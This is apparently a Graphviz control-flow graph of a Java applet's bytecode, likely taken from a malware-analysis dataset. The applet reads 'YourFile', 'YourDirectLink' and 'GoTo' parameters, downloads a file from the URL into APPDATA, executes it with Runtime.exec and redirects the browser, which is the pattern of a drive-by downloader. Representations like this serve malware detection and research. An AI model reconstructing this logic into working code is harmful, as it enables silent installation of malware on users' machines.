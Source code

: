 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push \"YourFile\""
    "load.r r0"->"push \"YourFile\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"YourFile\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"APPDATA\""
    "store.r r1"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r25"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r25";
    "push 1024"
    "store.r r25"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r3"
    "newarray"->"store.r r3";
    "new java.net.URL"
    "store.r r3"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink\""
    "load.r r0"->"push \"YourDirectLink\"";
    "push \"YourDirectLink\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"new java.io.FileOutputStream";
    "store.r $r10"
    "new java.io.FileOutputStream"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "new java.lang.StringBuilder"
    "load.r $r10"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r6"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r3"
    "load.r r6"->"load.r r3";
    "push 0"
    "load.r r3"->"push 0";
    "push 0"->"load.r r3";
    "arraylength"
    "load.r r3"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r6"
    "push -1"->"ifcmpeq.i load.r r6";
    "ifcmpeq.i load.r r6"->"load.r $r10";
    "load.r $r10"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r6"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r6";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r6"->"load.r r6";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r6"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r10";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r10"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r25"
    "dup1.r"->"load.r r25";
    "checkcast"
    "load.r r25"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}
